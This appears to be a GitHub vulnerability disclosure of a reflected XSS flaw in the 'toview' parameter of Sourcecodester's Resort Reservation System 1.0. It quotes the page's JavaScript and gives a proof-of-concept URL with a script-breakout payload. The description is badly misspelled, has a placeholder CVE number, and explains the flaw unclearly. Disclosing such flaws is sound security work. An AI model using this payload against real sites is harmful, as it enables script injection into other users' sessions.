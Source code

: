 # Reflected XSS vulnerability was discovered in Sourcecodester's Resort Reservation System - PHP 1.0 (toview)
---

---
Affected Project: Sourcecodester's Resort Reservation System

Official Website: [Sourcecodester's Resort Reservation System]()

Version: 1.0
---
## CVE-2024-XXXX
---

Vulnerability Discription
---
The manage_fee.php id not properly sentized for Javascript filter and the paramter **toview's **
 value taking by a conditional opration as a argument resultant the code executing Javascript 

Releted Code: manage_fee.php

```
<script>
    $(function(){
        $('#fee-form').submit(function(e){
            e.preventDefault();
            $('.pop_msg').remove()
            var _this = $(this)
            var _el = $('<div>')
                _el.addClass('pop_msg')
            start_loader()
            $.ajax({
                url:'./Master.php?a=save_fee',
                method:'POST',
                data:$(this).serialize(),
                dataType:'JSON',
                error:err=>{
                    console.log(err)
                    _el.addClass('alert alert-danger')
                    _el.text("An error occurred.")
                    _this.prepend(_el)
                    _el.show('slow')
                    end_loader();
                    $('html, body').scrollTop(0)
                },
                success:function(resp){
                    if(resp.status == 'success'){
                        if('HelloHacker' == ""){ //XSS Vulnerable Code
                            location.replace("./?page=fees");
                        }else{
                            location.replace("./?page=view_fee&id=");
                        }
                    }else{
                        _el.addClass('alert alert-danger')
                    }
                    _el.text(resp.msg)

                    _el.hide()
                    _this.prepend(_el)
                    _el.show('slow')
                    $('html, body').scrollTop(0)
                    end_loader()
                }
            })
        })
    })
</script>
```

![image](https://github.com/gurudattch/CVEs/blob/main/assets/24.png)

---
http://192.168.16.161/manage_fee.php?toview=')</script><script>alert()</script>

![image1](https://github.com/gurudattch/CVEs/blob/main/assets/23.png)

---
